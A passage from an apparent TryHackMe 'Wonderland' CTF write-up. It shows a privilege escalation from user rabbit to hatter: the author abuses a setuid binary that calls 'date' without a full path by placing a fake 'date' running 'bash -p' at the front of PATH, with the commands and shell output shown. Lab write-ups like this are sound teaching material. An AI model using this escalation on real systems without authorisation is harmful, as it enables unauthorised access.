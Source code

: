 ### escalating to hatter

checking out what in rabbit's home directory I found a 64 bit elf executable with both setuid and setgid bits set, this was pleasant to see as my reverese engineering skills are slightly better than my web hacking skills

```bash
rabbit@wonderland:~$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ ls -lah
total 40K
drwxr-x--- 2 rabbit rabbit 4.0K May 25  2020 .
drwxr-xr-x 6 root   root   4.0K May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit  220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit 3.7K May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit  807 May 25  2020 .profile
-rwsr-sr-x 1 root   root    17K May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
rabbit@wonderland:/home/rabbit$
```

after downloading the binary and opening it with binaryninja, I was able to recover the source code (you can find it [here](https://github.com/0x00Jeff/reversed_binaries/blob/master/tryhackme/teaParty.c))

TLDR; it sets the effective user and group id to 1003, which belong the `hatter`, this way we can spawn a shell as that user, it then prints some stuff and executes the following `bash` command using `system(3)` function

```bash
/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R
```
you can see that `date` wasn't invoked with its absolute path, knowing this, we can make a fake `date` executable then alter the `$PATH` variable so the teaParty executes our version of the said executable

```bash
rabbit@wonderland:/home/rabbit$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ echo "bash -p" > date
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH="$PWD:$PATH"
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$
```

### gaining root privileges
